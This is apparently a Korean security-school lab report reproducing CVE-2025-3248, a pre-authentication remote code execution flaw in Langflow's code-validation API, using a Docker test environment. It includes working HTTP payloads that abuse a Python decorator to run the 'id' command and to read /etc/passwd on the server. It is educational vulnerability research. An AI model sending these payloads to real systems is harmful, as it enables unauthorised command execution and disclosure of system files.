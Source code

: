 # Langflow validate/code API Pre-Auth 원격 코드 실행 (CVE-2025-3248) 

> 화이트햇 스쿨 3기 - [장인영 (@inyeongjang)](https://github.com/inyeongjang)

<br/>

## 개요

**Langflow**

Langflow는 대규모 언어 모델(LLM)과 다양한 데이터 소스를 활용하여 AI 애플리케이션을 시각적으로 설계하고 구축할 수 있는 low-code 플랫폼입니다. Pyhton 기반으로 개발되었으며, 특정 모델, API, 데이터베이스에 구애받지 않고 유연하게 사용할 수 있습니다. 

**CVE-2025-3248**

Langflow 1.3.0 버전 미만에서, 인증 없이 원격 코드 실행(RCE)이 가능한 심각한 취약점 CVE-2025-3248이 존재합니다. 

해당 취약점은 LLM이 생성한 코드를 검증하는 API /api/v1/validate/code에서 발생합니다. 사용자가 제출한 Python 코드를 ast 모듈로 파싱하고, exec를 통해 함수 정의를 실행하는데, Python에서는 함수 정의 시 데코레이터(decorator) 와 기본 인자(default arguments) 도 함께 실행됩니다. 이를 악용하면 악성 코드를 삽입할 수 있으며, 결과적으로 공격자가 서버 사용자 권한으로 임의의 코드를 실행할 수 있게 됩니다. 

본 보고서에서는 Docker 기반으로 CVE-2025-3248을 검증하는 환경을 구축하고 실제 공격 과정을 재현합니다. 

<br/>

## 환경 구축 (Environment Setup)

1. 취약한 Langflow 1.2.0 버전을 Docker로 실행합니다. 

```bash
docker compose up -d
````

2. 서버가 시작되면, 아래 주소로 웹 인터페이스에 접속할 수 있습니다. 

```
http://your-ip:7860 
```
![Langflow 실행 화면](./images/1.png)

3. 기본 로그인 계정으로 로그인합니다. 

- 아이디: administrator

- 비밀번호: vulhub 

![Langflow 실행 화면](./images/2.png)

<br/>

## 취약점 재현 (Vulnerability Reproduction)

프록시 도구를 이용해 `/api/v1/validate/code` 엔드포인트에 악성 Python 함수 정의를 포함한 POST 요청을 전송합니다. 

다음은 서버에서 id 명령어를 실행하는 공격 페이로드입니다. 

```
POST /api/v1/validate/code HTTP/1.1
Host: your-ip:7860
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 105

{"code": "@exec(\"raise Exception(__import__('subprocess').check_output(['id']))\")\ndef foo():\n  pass"}
```

요청이 성공하면, 서버 측에서 id 명령이 실행되고 결과가 노출됩니다. 이러한 방식으로 임의 명령어 실행이 가능함을 확인할 수 있습니다. 

![실행 결과 화면](./images/3.png)

**추가 공격 예시**

서버의 /etc/passwd 파일 내용을 읽어 메시지로 출력합니다.  

```
{
  "code": "@exec(\"raise Exception(open('/etc/passwd').read())\")\ndef foo():\n  pass"
}
```

![실행 결과 화면](./images/4.png)

<br/>

## 참고 자료 (References) 

https://horizon3.ai/attack-research/disclosures/unsafe-at-any-speed-abusing-python-exec-for-unauth-rce-in-langflow-ai/

https://github.com/langflow-ai/langflow/releases/tag/1.3.0
langflow-ai/langflow#6911

<추가> 

https://wikidocs.net/book/16986 

https://github.com/vulhub/vulhub/tree/master/langflow/CVE-2025-3248

https://hackyboiz.github.io/2025/04/13/mungsul/2025-04-12/


